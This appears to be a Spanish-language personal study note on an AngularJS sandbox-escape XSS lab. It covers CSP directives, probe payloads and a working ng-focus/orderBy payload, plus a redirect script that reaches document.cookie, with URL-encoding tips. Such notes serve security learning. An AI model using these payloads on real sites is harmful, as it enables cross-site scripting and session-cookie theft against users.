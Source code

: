 # Escape de sandbox Angular JS sin cadenas 

Tags: #XSS #XSS-Reflected #AngularJS 

* [Angular Portswigger Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

```javascript 
// CSP (Content Security Policy) es una función de seguridad que ayuda a evitar atques de secuencias de comandos entre sitios (XSS). 

// La cabecera HTTP CSP en la respuesta permire a los administradores de un sitio web controlar los recursos que el User-Agent puede cargar a una pagina. 

	default-src 'self' -> Solo permite cargar recursos del mismo origen por defecto
	script-src 'self' -> Permite scripts del mismo dominio | No permite scripts inline (<script>alert(0)</script>) | No permite eval()
	style-src 'unsafe-inline' 'self' -> Permite estilos inline y del mismo dominio 
```

```javascript 
- Verificar si el campo es inyectable:

	<script>alert(0)</script>
	<h1>Hi</h1>
	<marquee>Hi</marquee>
	<img src=0 onerror=alert(0)>
```

```javascript 
	<input ng-focus=$event.composedPath()|orderBy:'(z=alert)(1)'>


	<script>
		location='htpps://web.com/?search=<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(document.cookie)'>#x';
	</script>


Notas:
	1. Cuando se coloca '#' estas obligando a ir directamente al último elemento cuyo identificador es 'x'
	2. Para los espacios es bueno colocarlos con '+' o '%20'
	3. Urlencodear las comillas simples ' = '%27'
```
